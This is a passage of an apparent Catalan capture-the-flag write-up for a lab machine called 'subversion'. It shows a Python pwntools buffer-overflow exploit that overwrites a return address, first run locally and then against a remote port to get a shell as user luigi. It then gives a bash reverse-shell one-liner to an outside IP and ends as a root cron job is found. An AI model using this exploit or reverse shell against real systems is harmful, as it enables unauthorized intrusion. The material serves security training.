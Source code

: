 ```python
        # Enviamos la respuesta
        p.sendline(resp)

# Enviamos número aleatorio
def aleatorio():
    p.recvuntil(b"Respuesta:")
    p.sendline(bytes(str(random_number), 'ascii'))

def overflow():
    funcion = p64(0x00000000004017b4)
    offset = 64+8 
    buffer = b"A"*offset
    payload = buffer + funcion
    p.recvuntil("Introduce tu \"mágico\" texto para continuar:".encode('utf-8'))
    p.sendline(payload)


if __name__ == '__main__':
    responde()
    aleatorio()
    overflow()
    p.interactive()
```

L'executem i obtenim una shell en el nostre propi sistema, funcionant com esperàvem.  

![alt text](/assets/subversion/exploit-1.png)  

Ara modifiquem les primeres línies de l'exploit per, en comptes d'executar el binari `subversion` descarregat, fer-ho contra el port `1789`.  

```python
binario = './subversion'
# p = process(binario)
p = remote('172.17.0.2', '1789')
```

Tornem a executar l'exploit i obtenim una shell amb l'usuari `luigi` en el servidor.  

![alt text](/assets/subversion/exploit-2.png)  

## Escalada de Privilegis  

Per treballar amb més comoditat en el servidor, ens creem una altra shell i fem el tractament de la tty.  

![alt text](/assets/subversion/escalada.png)  

```
/usr/bin/bash -c "/usr/bin/bash -i >& /dev/tcp/192.168.1.116/12345 0>&1"
```

Trobem una tasca programada que s'executa cada minut per l'usuari root.

